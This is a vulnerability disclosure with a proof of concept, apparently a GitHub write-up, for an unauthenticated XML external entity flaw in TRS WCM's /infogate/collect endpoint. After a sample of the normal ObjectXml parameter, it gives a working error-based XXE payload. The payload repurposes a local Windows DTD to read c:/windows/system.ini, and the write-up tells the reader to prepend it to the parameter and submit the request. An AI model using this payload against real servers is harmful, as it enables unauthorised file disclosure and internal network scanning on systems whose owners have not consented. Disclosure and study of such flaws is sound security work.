


# TRS WCM XXE
## Description
An XXE issue was discovered in WCM, which can be used to read any file in the system or scan the internal network without authentication. When submitting a post request to `/infogate/collect`, the *ObjectXml* parameter is in XML format, and the server doesn't properly verify the validity when processing XML data.

## POC
The normal request is as follows


*ObjectXml* parameter content looks like this
```
<my:myFields xmlns:my="http://schemas.microsoft.com/office/infopath/">
<my:group1>
<my:您的姓名><![CDATA[123123123123123]]></my:您的姓名>
<my:联系电话><![CDATA[123123]]></my:联系电话>
<my:邮箱><![CDATA[123123]]></my:邮箱>
<my:联系地址><![CDATA[123]]></my:联系地址>
<my:主题><![CDATA[123123]]></my:主题>
<my:内容><![CDATA[123123]]></my:内容>
</my:group1>
</my:myFields>
```

POC:
```
  <!DOCTYPE message [
      <!ENTITY % local_dtd SYSTEM "file:///C:/Windows/System32/wbem/xml/cim20.dtd">
      <!ENTITY % SuperClass '>
          <!ENTITY &#x25; file SYSTEM "file:///c:/windows/system.ini">
          <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
          &#x25;eval;
          &#x25;error;
          '>
      %local_dtd;
  ]>
  <message>any text</message>
```

Put the POC code before the content of the ObjectXml parameter and submit the request

